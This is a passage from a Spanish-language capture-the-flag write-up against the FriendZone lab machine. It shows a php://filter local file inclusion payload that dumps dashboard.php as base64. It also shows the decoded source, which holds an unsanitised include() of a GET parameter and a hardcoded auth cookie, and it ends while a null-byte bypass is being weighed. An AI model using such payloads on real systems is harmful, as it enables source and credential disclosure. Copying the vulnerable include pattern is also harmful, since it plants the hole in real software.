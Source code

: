 ```plaintext
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=dashboard
```

Nos saca una cadena en base64, que si decodeamos en local:

```sh
❯ echo "PD9waHAKCi8vZWNobyAiPGNlbnRlcj48aDI+U21hcnQgcGhvdG8gc2NyaXB0IGZvciBmcmllbmR6b25lIGNvcnAgITwvaDI+PC9jZW50ZXI
... SNIP .....
+IjsKIGluY2x1ZGUoJF9HRVRbInBhZ2VuYW1lIl0uIi5waHAiKTsKIC8vZWNobyAkX0dFVFsicGFnZW5hbWUiXTsKIH0KfWVsc2V7CmVjaG8gIjxjZW50ZXI+PHA+WW91IGNhbid0IHNlZSB0aGUgY29udGVudCAhICwgcGxlYXNlIGxvZ2luICE8L2NlbnRlcj48L3A+IjsKfQo/Pgo=" |base64 -d > dashboard.php
```
Al abrir el dashboard.php nos encontramos su código:

```php
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center><img src='images/$image'></center>";

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
```

Parece -era de suponer- que incluye .php en el valor del parámetro pagename, quizás se pueda anular con un byte null (**%00**) para buscar otro tipo de archivos. Pruebo con lo siguiente pero nada:
